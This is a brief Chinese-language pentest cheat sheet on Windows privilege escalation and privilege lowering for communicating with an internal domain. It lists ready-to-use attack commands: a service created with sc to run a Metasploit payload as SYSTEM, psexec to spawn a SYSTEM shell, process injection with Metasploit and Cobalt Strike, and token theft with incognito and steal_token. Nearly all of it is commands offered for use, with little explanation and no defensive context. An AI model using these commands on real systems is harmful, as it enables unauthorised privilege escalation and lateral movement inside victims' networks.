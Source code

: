 # 计算机用户权限提升(与内网同通讯)
# 服务启动(提权)
适用:win7,10,08,12,16,19,22
1.创建syscmd的执行文件服务
sc Create syscmd binPath= "c:\msf.exe"
sc start system
# 远程控制(psexec,提权)
提权
psexec.exe -accepteula -s -i -d cmd#system调用运行cmd
# 进程注入(降权&提权)
- msf:
ps
migrate pid
- CS:
ps
inject pid

# 令牌窃取(降权&提权)
- msf:
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY/SYSTEM"
- cs:
ps
steal_token pid//窃取令牌
spawnu//窃取令牌上线

msf的getsystem将自动实行以上方法


提权到system能与域通信
降权到普通用户(域用户)通信
<mark>
理解:普通用户(域用户)受AD管理,system权限能不受AD限制,那么本机的administrator权限可以选择提权或降权与域通信
</mark>